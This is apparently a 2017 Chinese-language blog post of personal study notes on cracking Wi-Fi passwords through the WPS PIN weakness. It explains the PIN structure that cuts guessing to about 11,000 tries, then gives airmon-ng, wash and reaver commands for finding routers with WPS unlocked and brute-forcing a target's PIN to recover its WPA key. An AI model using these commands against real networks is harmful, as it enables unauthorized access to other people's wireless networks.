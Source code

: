 ```yaml
---
layout: post
title:  "PIN码破解Wi-Fi密码_学习笔记"
date:   2017-05-26 11:55:32 +0800
categories: hack your life
catalog:  true
tags:
  - hack your life
---
```




# 0 前言

发现自己对无线安全还是比较感兴趣的，上一篇学习了一下用aircrack-ng 来破解WPA，其基本原理是通过截获客户端和路由器之间的握手包，根据字典进行暴力破解，全程太依赖运气和字典，我认为过程不是太优雅。所以今天继续学习用PIN码进行破解。

毕竟最多也就猜个一万一千次，并且这种方法也不要求破解的时候已有客户端与路由器连接。


# 1 原理

规律

 * pin码是8位纯数字组成
 * 分三部分，前4位为第一部分，5-7位为第二部分，最后1位为第三部分。
 * 第一部分和第二部分没有关联。
 * 最后一位是根据第二部分计算得出的校验码

过程

1. 先单独对第一部分进行pin码匹配，
2. 前四位确定后再对第二部分进行匹配， 
3. 前7位，确定后，最后一位自动得出

算算

 1. 第一部分，前4位，根据排列组合，很容易算出 10<sup>4</sup>
 2. 第二部分，5到7位，10<sup>3</sup>
 3. 第三部分，直接得到结果


# 2 过程

## 1 检查插入的无线网卡


~~~
airmon-ng
~~~

~~~
iwconfig
~~~


## 2 开启监听模式

~~~
airmon-ng start wlan0
~~~

下面的命令暂时先记下，没有试过
~~~
ifconfig wlan0mon down
iwconfig wlan0mon mode monitor
ifconfig wlan0mon up
~~~


## 2 检查周围网络

~~~
wash -i wlan0
~~~

专挑WPS Locked 为 No 的下手。

## 3 reaver


~~~
reaver -i wlan0 -b 11:22:33:44:55:66 -S -N -vv -c 4
~~~

我在这一步没有成功，没有啥反馈，搜了一下，买了个新设备试试。

~~~
会出现很多，但一直都是12345670

一直提示
waiting for beacon from
~~~

* -i 监听借口名称
* -b 目标MAC地址
* -vv 显示更多的非严重警告
* -d delay每穷举一次的闲置时间，默认一秒。信号非常好，-d 0 ,信号普通-d 2,信号一般-d 5
* -t 即timeout 没次穷举等待返回的最长时间
* -c 指定频道

下面几个配置都没亲自试过

* -S 使用最小的DH key
* -p 一般钱四位默认是从0开始，如果通过这个参数设置从制定数值开始，例如9000.
* -s 穷举过程中，reaver会生成以路由MAC地址位名的wpc文件，在/etc/reaver/下。当时pin死了路由器，过段时间可以根据 -s file.wpc，就会根据之前的进度继续pin




# 4 注意点

1. 最后pin完最后会显示WPS PIN和WPA PSK。后期如果WPS功能没关，pin码没修改，无论怎样修改密码，都可以通过pin码获取wifi密码: reaver -i mon0 -b mac -p pin码，来再次得到密码。😄
2. 现在的路由一般会有防pin措施，例如会有300秒pin限制。可以根据它设置时间间隔，正好防止我们把路由器pin死。




# 5 参考<a name="reference"></a>


   1. [无线安全专题_破解篇02--kali破解pin码](http://www.cnblogs.com/qiyeboy/p/5825525.html)
   2. [WPS Cracking with Reaver](https://www.pwnieexpress.com/blog/wps-cracking-with-reaver)
